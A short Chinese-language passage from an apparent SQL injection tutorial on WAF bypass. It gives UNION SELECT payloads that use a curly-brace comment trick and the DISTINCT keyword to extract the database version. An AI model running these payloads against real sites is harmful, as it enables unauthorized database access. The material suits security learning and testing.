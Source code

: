 花括 左边是注释的内容，这样可以一些 waf 的拦截。

使用命令

```sql
?id=-1' union select {x 1},2,version()--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677738395559-9a146075-e476-45cb-b346-e7a9f60feafb.png)

# 使用 ALL 或者 DISTINCT 绕过★ 

使用命令：

```sql
?id=-1' union DISTINCT select 1,version(),3--+
```

